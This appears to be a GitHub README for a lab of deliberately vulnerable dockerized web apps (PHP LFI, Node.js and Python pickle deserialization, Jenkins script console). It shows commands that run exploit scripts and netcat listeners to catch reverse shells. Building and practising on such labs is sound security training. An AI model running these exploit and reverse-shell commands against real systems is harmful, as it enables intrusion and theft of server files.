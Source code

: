 # vulnhub

## Description

This project is some dockerized web applications that has any known vurnerability and a example on 
how to exploit them.

## Usage

Start all vurnerable docker containers

```sh
   docker-compose up -d
```

## lfi-php5 

Example on how to exploit this container.\
This command is an example on how to loot serverside files that normally will not be able to browse or download by use a LFI (local file inclusion) 

```sh
lfi-loot.py -f index.php -g file -u http://localhost:8080
``` 

##  nodejs-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./nodejs_deser_rce_nc.py http://localhost:3000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./nodejs_deser_rce.py http://localhost:3000 127.0.0.1 1337
```

##  pypickle-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./pycpickle_deser_rce_nc.py http://localhost:5000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./pypicke_deser_rce.py http://localhost:5000 127.0.0.1 1337
```

## jenkins-docker

Example on how to exploit this container 

```sh                                                                                                                                                                                                                                                                                                      
./jenkins_sconsole_rce.py 'http://localhost:8080' 10.10.14.24 1337 admin admin
```       
